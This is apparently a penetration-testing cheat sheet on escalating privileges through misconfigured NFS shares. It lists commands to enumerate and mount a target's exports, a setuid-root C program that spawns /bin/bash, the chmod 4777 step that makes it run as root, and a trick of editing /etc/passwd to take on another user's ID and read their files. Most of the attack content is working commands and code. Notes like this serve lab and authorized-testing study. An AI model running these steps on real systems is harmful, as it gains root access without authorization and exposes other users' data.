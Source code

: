 # NFS Share/Unmounted Filesystem

## Overview

* if you find that a machine has a NFS share you might be able to use that to escalate privileges, depending on how it is configured

## First, Check if the Target Machine has any NFS Shares

```bash
showmount -e 192.168.1.101
```

## If it Does, then Mount it to the Attacking Filesystem

```bash
mount 192.168.1.101:/foldername ~/tmp/
```

* if that succeeds then you can go to /tmp/share
* might be some interesting stuff there, but even if there isn't you might be able to exploit it
* ff you have write privileges you can create files
* test if you can create files, then check with your low-priv shell what user has created that file
* if it says that it is the root-user that has created the file it is good news
* then you can create a file and set it with suid-permission from your attacking machine, And  execute it with your low privilege shell
* this code can be compiled and added to the share
* before executing it by your low-priv user make sure to set the suid-bit on it

```bash
chmod 4777 exploit
```

* then this

```bash
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main()
{
setuid(0);
system("/bin/bash");
return 0;
}
```

## How to Mount a File System

```bash
# 1 way
mount -l
cat /etc/fstab

# for older file systems, "-o nolock"
# lets say we find /home with scanning
sudo mount -o nolock 10.10.10.10:/home ~/local_path/

# if a file is only viewable/etc by a specific user, find the UUID of the user
# by checking file permissions, then create a new user on your machine that
# has that UUID so the file can be viewed
# use the commmand below to change the UUID of the new user you just created,
# then switch users
sudo sed -i -e 's/old_uuid/new_uuid/g' /etc/passwd
```

